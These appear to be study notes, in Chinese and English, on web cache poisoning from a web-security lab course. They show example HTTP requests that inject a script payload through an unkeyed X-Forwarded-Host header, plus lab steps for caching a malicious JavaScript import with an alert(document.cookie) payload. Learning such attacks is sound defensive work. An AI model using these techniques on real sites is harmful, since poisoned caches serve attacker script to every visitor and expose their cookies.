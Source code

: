 如果一个输入在服务器的响应中反映出来，而没有经过适当的清理，或者用于动态生成其他数据，那么这就是web缓存中毒的潜在入口点。

## Get the response cached

操纵输入以引发有害的响应是成功的一半，但除非您能够缓存响应（不好搞），否则效果不会很大。

一旦您确定了如何缓存包含恶意输入的响应，您就可以将该漏洞传递给潜在的受害者。

# Exploiting web cache poisoning vulnerabilities

在某些情况下，web缓存中毒漏洞是由于缓存设计中的一般缺陷造成的

其他时候，特定网站实现缓存的方式可能会带来意想不到的能被利用quirks。

## Exploiting cache design flaws

简言之，如果网站**以不安全的方式处理未知输入并允许缓存后续HTTP响应**，那么它们很容易受到web缓存中毒的影响

### deliver an XSS attack

For example, consider the following request and response:

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Crucially for web cache poisoning, **the `X-Forwarded-Host` header is often unkeyed**

xss：

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

### exploit unsafe handling of resource imports

一些网站使用未命名的标题**动态生成URL以导入资源**，例如外部托管的JavaScript文件

```
lab：
1.change exploit file name to /resources/js/tracking.js ， payload is alert(document.cookie)
2.add X-Forwarded-Host:ac041f131ea729c4809e0a200109006d.web-security-academy.net 
3.send until  the response contains the header X-Cache: hit
```
